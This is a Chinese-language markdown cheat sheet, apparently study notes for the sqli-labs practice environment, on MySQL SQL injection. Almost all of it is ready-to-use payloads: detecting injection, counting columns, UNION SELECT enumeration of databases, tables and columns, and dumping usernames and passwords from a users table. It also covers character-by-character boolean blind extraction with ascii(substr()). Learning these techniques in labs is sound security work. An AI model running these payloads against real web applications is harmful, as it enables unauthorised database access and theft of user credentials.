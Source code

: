 ## 
![1](https://image.baidu.com/search/down?tn=download&word=download&ie=utf8&fr=detail&url=https://ws3.sinaimg.cn/large/006Xzox4ly1g0pom0382gj30b40b43yx.jpg)

##### 注释

`--+`
`-- 任意符号`
`%23`  (#ur编码)

##### 判断注入

`1' and 1=1 --+`
`1' and 1=2 --+`

##### 查询字段

`1' order by 1 --+` 正常
`1' order by 4 --+` 报错
`1' order by 3 --+` 正常
字段为3

##### UNION SELECT 联合查询

`-1' union select 1,2,3 --+`
`1' and 1=2 union select 1,2,3 --+`
报错2，3

##### 信息收集

`version()`   #Mysql版本
`user()`      #数据库用户名
`database()`  #数据库名
`@@datadir()` #数据库路径

##### 查询所有数据库

`-1'  union select 1, 2, group_concat(schema_name) from information_schema.schemata --+`

##### 查询当前数据库的所有表名

`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=database() --+`
`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='security' --+`
`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479 --+ hex编码 前面加0x`

##### 查询users表下的列名
`-1'  union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' --+`

##### 查询users表下的列名id,username,password的值
`-1'  union select 1, 2, group_concat(id,username,password) from users --+`

##### 布尔型盲注

![1](https://i.loli.net/2019/05/20/5ce2c8c162c6790704.png)

判断当前数据库名(security)长度

`id=1' and length((select database()))>=8 --+` 

`id=1' and length(database())>=8 --+`

判断数据库名第一位为ascii(115) = s(字母)

`id=1' and ascii(substr(database(),1,1))=115 --+`

判断数据库名第一位为ascii(101) = e(字母)

`id=1' and ascii(substr(database(),2,1))=101 --+`

第三位

`id=1' and ascii(substr(database(),3,1))=99 --+`

或者

数据库第一位为s

`id=1' and left(database(),1)='s' --+`

数据库前两位为se

`id=1' and left(database(),2)='se' --+`

查数据库security的表名

`emails,referers,uagents,users`

![2](https://i.loli.net/2019/05/20/5ce2c8f41037893235.png)

查第一张表名的第一个字符101 = e

`id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101--+`

查第一张表名的第二个字符109 = m

`id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=109--+`

查第二张表名的第一个字符114 = r

`id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+`

查users表的列名

`id,username,password`

![3](https://i.loli.net/2019/05/20/5ce2c93bde5ad46381.png)

查users表的第一个列名的第一个字符 i

`id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=105--+`

查users表的第一个列名的第二个字符 d

`id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),2,1))=100--+`

查users表的第二个列名的第一个字符 u

`id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1))=117--+`

查数据库security表名users的内容

![4](https://i.loli.net/2019/05/20/5ce2c9690c65c59514.png)

查users表的username的第一字段的第一个字母 D

`id=1' and ascii(substr((select username from security.users order by id limit 0,1),1,1))=68--+`

查users表的username的第一字段的第二个字母 u

`id=1' and ascii(substr((select username from security.users order by id limit 0,1),2,1))=117--+`

查users表的username的第二字段的第一个字母 A

`id=1' and ascii(substr((select username from security.users order by id limit 1,1),1,1))=65--+`

查users表的username的第二字段的第二个字母 n

`id=1' and ascii(substr((select username from security.users order by id limit 1,1),2,1))=110--+`

